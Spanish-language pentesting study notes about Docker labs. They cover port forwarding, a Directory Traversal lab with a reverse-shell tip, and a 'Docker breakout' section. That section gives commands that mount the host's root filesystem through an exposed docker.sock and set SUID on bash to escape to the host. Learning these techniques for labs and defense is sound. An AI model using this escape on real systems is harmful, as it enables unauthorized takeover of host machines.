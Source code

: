 Seguramente nos habrá creado un port forwarding con el docker:
```
> docker port ID/NAME (Vale tanto el ID como el name del docker)
```
Lo hace porque así te es más fácil operar con algunos servicios o herramientas, podrías hacer desde el navegador `localhost:PUERTO` y verías el servicio por ejemplo.

En esta docker hay una vulnerabilidad de Directory Traversal que siguiendo los pasos del github podemos vulnerar desde nuestra propia Web gracias también a ese Port Forwarding.  
Para la reverse shell recuerda que tu ip local se encuentra en la interfaz docker0, `ifconfig docker0` para verla.

A la hora de eliminar docker e imagenes atentos y atentas por si ha creado **volumenes** para eliminarlos también. Visto arriba como hacerlo.

- - - 

### Docker breakout

Aquí aprenderemos como salir de un docker. Imagina que hackeamos una máquina pero en vez de entrar a la máquina real estamos en un docker.

Si han creado ese docker con una montura en la ruta `/var/run/docker.sock` y realizo el comando `docker images` puede ver las imagenes creadas en la máquina víctima real, entonces podríamos hacer lo mismo que cuando estamos en el grupo docker; Crearnos una montura en el propio docker de la raíz, que no sería la raíz del propio docker sino de la máquina real -funcionaría si estas como root en el docker-:
```sh
> doccker run --rm --dit -v /:/mnt/root --name hack ubuntu # Creamos docker con una montura de la raíz.

> docker ps # Veremos el docker creado desde el propio docker.
> docker exec -it hack bash
> cd /mnt/root # Aquí estaríamos viendo realmente la máquina real y todo cambio que hagamos aquí se hará en la real.
> chmod u+s bash # Por ejemplo, para tener la bash con permiso SUID.
```

Y esto, si se diera el caso, sería una forma de escapar del contenedor.

Si el administrador o quien sea ha creado el docker con la opción --pid=host podríamos ver los procesos del host real y realizar una inyección de shellcode en los procesos o **inyection running process** en página 0x00sec.org, visto en curso s4vitar en clase **docker breakout**.

En hacktricks tienes una sección llamada pentesting dockers que te puede dar más información. Lo mejor, pienso, es que a partir de alguna máquina de hack the box, u otras plataformas, en las que te enfrentes a un docker saques aprendizajes y conclusiones. Puedes filtrar por docker en la página de máquinas resueltas por s4vitar, [Página](https://machines-javiermolines.vercel.app/).

- - - 



